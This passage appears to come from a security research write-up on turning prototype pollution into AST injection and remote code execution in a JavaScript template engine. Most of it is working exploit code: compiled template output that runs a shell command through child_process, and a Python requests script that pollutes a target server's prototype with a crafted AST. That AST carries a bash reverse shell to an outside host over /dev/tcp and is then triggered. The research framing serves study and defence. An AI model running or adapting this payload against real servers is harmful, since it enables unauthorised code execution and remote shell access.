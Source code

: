 ```javascript

console.log(eval('(' + template + ')')['main'].toString());

/*
function (container, depth0, helpers, partials, data) {
    var stack1, lookupProperty = container.lookupProperty || function (parent, propertyName) {
        if (Object.prototype.hasOwnProperty.call(parent, propertyName)) {
            return parent[propertyName];
        }
        return undefined
    };

    return ((stack1 = (lookupProperty(helpers, "undefined") || (depth0 && lookupProperty(depth0, "undefined")) || container.hooks.helperMissing).call(depth0 != null ? depth0 : (container.nullContext || {}), console.log(process.mainModule.require('child_process').execSync('id').toString()), {
        "name": "undefined",
        "hash": {},
        "data": data,
        "loc": {
            "start": 0,
            "end": 0
        }
    })) != null ? stack1 : "");
}
*/
```

As a result, an attack can be configured like this. If you have gone through parser, specify a string that cannot be assigned to the value of NumberLiteral. But Injected AST processed, we can insert any code into the function.

#### Example

[https://github.com/hughsk/flat/issues/105](https://github.com/hughsk/flat/issues/105)

```python
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})

# execute
requests.get(TARGET_URL)
```
